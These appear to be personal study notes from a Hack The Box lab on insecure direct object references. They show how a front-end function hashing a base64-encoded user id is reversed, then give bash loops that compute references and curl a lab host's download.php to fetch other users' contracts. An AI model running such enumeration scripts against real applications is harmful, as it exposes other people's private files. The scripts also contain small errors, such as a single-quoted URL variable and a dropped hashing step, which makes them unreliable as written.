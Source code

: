 ### Example
A webapp has a download file feature but hashes the file name when sending the request to download it

![[Pasted image 20250220171534.png]]

![[Pasted image 20250220171539.png]]

Using a `download.php` script to download files is a common practice to avoid directly linking to files, as that may be exploitable with multiple web attacks.

### Function Disclosure
As most modern web applications are developed using JavaScript frameworks, like `Angular`, `React`, or `Vue.js`, many web developers may make the mistake of performing sensitive functions on the front-end, which would expose them to attackers. For example, if the above hash was being calculated on the front-end, we can study the function and then replicate what it's doing to calculate the same hash.

If we take a look at the link in the source code, we see that it is calling a JavaScript function with `javascript:downloadContract('1')`. Looking at the `downloadContract()` function in the source code, we see the following:

```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

This function appears to be sending a `POST` request with the `contract` parameter, which is what we saw above. The value it is sending is an `md5` hash using the `CryptoJS` library, which also matches the request we saw earlier. So, the only thing left to see is what value is being hashed.

In this case, the value being hashed is `btoa(uid)`, which is the `base64` encoded string of the `uid` variable. Going back to the earlier link where the function was called, we see it calling `downloadContract('1')`. So, the final value being used in the `POST` request is the `base64` encoded string of `1`, which was then `md5` hashed.

We can test this by `base64` encoding our `uid=1`, and then hashing it with `md5`, as follows:

```shell
adot8@htb[/htb]$ echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -
```
> [!NOTE] Note
> We are using the `-n` flag with `echo`, and the `-w 0` flag with `base64`, to avoid adding newlines, in order to be able to calculate the `md5` hash of the same value, without hashing newlines, as that would change the final `md5` hash.

### Exploit Automation
We can start by calculating the hash for each of the first ten employees using the same previous command while using `tr -d` to remove the trailing `-` characters, as follows

```bash
for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
```

Next, we can make a `POST` request on `download.php` with each of the above hashes as the `contract` value, which should give us our final script:

```bash
#!/bin/bash

url=

for i in {1..20}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -OJ '$url/download.php?contract=$hash'
    done
done
```

URL encoded
```bash
#!/bin/bash

url='http://94.237.59.180:35642'

for i in {1..20}; do
    for hash in $(echo -n $i | base64 -w 0); do
        curl -OvJ --data-urlencode "contract=$hash" $url/download.php?contract=$hash
    done
done

```